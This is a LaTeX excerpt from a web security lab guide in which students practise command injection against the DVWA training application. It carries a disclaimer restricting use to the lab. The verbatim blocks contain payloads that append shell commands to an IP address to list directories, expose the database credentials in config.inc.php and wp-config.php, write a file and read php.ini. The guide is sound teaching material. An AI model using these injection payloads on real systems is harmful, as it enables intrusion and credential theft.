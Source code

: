 \subsection{Testing vulnerabilities}
For understanding a defence of web application a basic offensive knowledge and skills are needed. However, this lab focused on defensive methods and will not provide knowledge about different \gls{OWASP} top ten. 

\colorbox{red}{\parbox{\textwidth}{DISCLAIMER: Do not use followed methods on any computer except lab computer and only for learning propose!}}

\subsubsection{Command execution}
Read command execution material given in Command Execution menu and try and explaing following commands and results.

\begin{verbatim}
8.8.8.8; sed 's/</UUUU/' ../../config/config.inc.php

#Find out directory and file structure of \gls{DVWA}
8.8.8.8; ls -l 
8.8.8.8; ls -l ../
8.8.8.8; ls -l ../../
8.8.8.8; sed 's/<//'  ../../../../wordpress/wp-config.php
8.8.8.8; touch /var/tmp/new_file.txt
8.8.8.8; ls /var/tmp/
\end{verbatim}

Try following command and explain what can describe output of following command?
\begin{verbatim}
; grep session.cookie_httponly /etc/php5/apache2/php.ini
\end{verbatim}
What attack vectors are possible when cookie\_httponly is set or not?

\begin{verbatim}
session.cookie_httponly = 1
\end{verbatim}

